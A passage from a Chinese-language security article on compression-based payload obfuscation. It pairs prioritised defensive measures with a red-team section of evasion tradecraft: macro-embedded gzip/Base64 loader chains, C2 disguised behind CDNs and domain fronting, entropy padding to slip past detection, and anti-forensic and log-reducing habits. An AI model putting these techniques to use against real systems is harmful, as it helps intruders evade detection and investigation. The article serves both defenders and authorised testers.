| TLS 解密中间人检测出站 HTTPS 压缩通信 | 识别加密 C2 压缩信道 | 高 |
| AMSI 集成到所有脚本解释器 | 检测内存解压脚本 | 中 |
| 文件熵值基线监控 | 识别高熵载荷落地 | 中 |

### 优先级 P2（建议半年内实施）

| 措施 | 防御效果 | 实施成本 |
|------|---------|---------|
| 建立组织内合法压缩工具使用基线 | 行为异常检测 | 高 |
| 部署 ETW 深度内存事件采集 | 检测内存解压 | 高 |
| JA3/JA3S TLS 指纹识别异常压缩通信 | C2 信道识别 | 高 |
| 多层压缩深度扫描（10 层） | 应对嵌套压缩 | 中 |

### 优先级 P3（持续优化）

| 措施 | 防御效果 | 实施成本 |
|------|---------|---------|
| 安全意识培训（识别带密码压缩包邮件） | 减少社工攻击成功 | 低 |
| 红队定期验证压缩载荷检测能力 | 持续优化规则 | 中 |
| 威胁情报订阅（关注 APT 压缩工具链变化） | 提前预警新变种 | 中 |

## 17. 红队视角

> **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 17.1 实战技巧

1. **算法选择策略**：
   - 目标是 Windows 10+：优先 `tar.exe` + gzip（命令最简，签名最干净）
   - 目标是 Linux 服务器：优先 gzip/xz（系统标配，无第三方依赖）
   - 目标是 macOS：优先 zip（兼容 Windows 来源文件）
   - 高隐蔽性需求：使用 zlib 嵌入自定义加载器，无外部命令调用

2. **多阶段压缩链**：
   ```
   原始PE → gzip压缩 → Base64编码 → 嵌入VBA宏 → Word文档
   执行链：VBA → Base64解码 → gzip解压 → PE加载
   ```
   每个阶段使用不同工具，使单一检测规则难以覆盖全链路。

3. **网络层伪装**：
   - C2 服务器配置 `Content-Encoding: gzip` + 合法 Content-Type（如 `application/json`）
   - 通过 Cloudflare、AWS CloudFront 等 CDN 转发，伪装为知名云服务流量
   - 使用域名前置（Domain Fronting）隐藏真实 C2 域名

4. **熵值混淆**：
   - 压缩后追加低熵填充（如 ASCII 文本）将整体熵值降至 6.5 以下
   - 使用 `deflate -1`（最低压缩级别）保留部分原始特征，规避熵值检测
   - 在压缩数据前后添加合法 PE 头部，伪装为可执行文件

5. **OPSEC 注意事项**：
   - 解压后立即删除压缩文件，避免取证恢复
   - 解压路径选择用户可写目录（`%APPDATA%` 而非 `%TEMP%`，减少检测关注）
   - 避免短时间内大量解压操作，分散到不同时间点
   - 使用 PowerShell `Invoke-WebRequest` 下载压缩载荷时，添加 `-UseBasicParsing` 减少日志

### 17.2 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
| -------- | ---- | ---- | ---- |
| gzip/gunzip | 通用 gzip 压缩/解压 | 全平台 | [gzip](https://www.gnu.org/software/gzip/) |
| 7-Zip | 高压缩比工具 | 全平台 | [7-Zip](https://www.7-zip.org/) |
| tar | 多格式归档工具 | 全平台 | [GNU tar](https://www.gnu.org/software/tar/) |
| certutil | Windows 编码解码 | Windows | 系统自带 |
| PowerShell Expand-Archive | Windows 解压 cmdlet | Windows | 系统自带 |
| Python zlib/gzip | 内存压缩/解压 | 全平台 | [Python docs](https://docs.python.org/3/library/zlib.html) |
| Atomic Red Team | 检测规则测试 | 全平台 | [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) |
| Cobalt Strike | C2 框架（支持压缩通信） | Windows | [Cobalt Strike](https://www.cobaltstrike.com/) |

### 17.3 与蓝队对抗的要点

1. **不要仅依赖第三方工具**：第三方压缩工具（如 7z、WinRAR）的特征易被检测，优先使用系统自带 LOLBins
2. **关注文件落地路径**：`%TEMP%`、`%PUBLIC%`、`C:\Windows\Temp\` 是高危路径，建议使用 `%APPDATA%\Microsoft\` 等看起来更合法的路径
3. **避免固定压缩参数**：相同压缩参数生成的文件 hash 一致，便于 IOC 关联，应在压缩时加入随机数据
4. **网络层避免规律性**：C2 压缩通信的请求大小、间隔应模拟正常 Web 流量，避免固定周期心跳
5. **测试检测能力**：使用 Atomic Red Team 的 T1027 测试用例验证目标 EDR 检测能力，针对性调整压缩策略
